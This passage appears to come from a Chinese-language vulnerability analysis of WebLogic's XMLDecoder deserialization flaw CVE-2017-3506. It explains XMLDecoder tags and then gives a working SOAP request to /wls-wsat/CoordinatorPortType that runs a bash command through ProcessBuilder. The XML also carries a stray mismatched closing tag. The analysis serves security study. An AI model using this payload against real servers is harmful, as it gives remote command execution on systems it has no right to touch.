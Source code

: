 - `<object>`

表示对象，标签的值作为参数

- `<method>`

调用指定类的指定方法

- `<string>`

表示字符串

- `<object>`

表示对象，class属性指定具体类（用于调用其内部方法），method属性指定具体方法名称

- `<void>`

表示函数调用和赋值等操作，method属性指定具体的方法名称

- `<array>`

表示数组，class属性指定具体类，内部void标签的index属性表示根据具体数组的索引赋值

## CVE-2017-3506

在weblogic解析的过程中，前半部分大致和之前的XMLDecoder过程分析中是一样的，不过在DocumentHandler.parse()到SAXParserImpl.parse()的过程中多了两步RegistryXMLReader.parse()和WebLogicXMLReader.parse()，之后再正常衔接

### 过程分析

#### XMLDecoder部分

```
POST /wls-wsat/CoordinatorPortType
```

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.8.0_131" class="java.beans.XMLDecoder">
          <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
              <void index="0">
                <string>/bin/bash</string>
              </void>
              <void index="1">
                <string>-c</string>
              </void>
              <void index="2">
                <string>touch /tmp/123</string>
              </void>
            </array>
          <void method="start"/></void>
        </java>
      </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
</soap:Envelope>
```
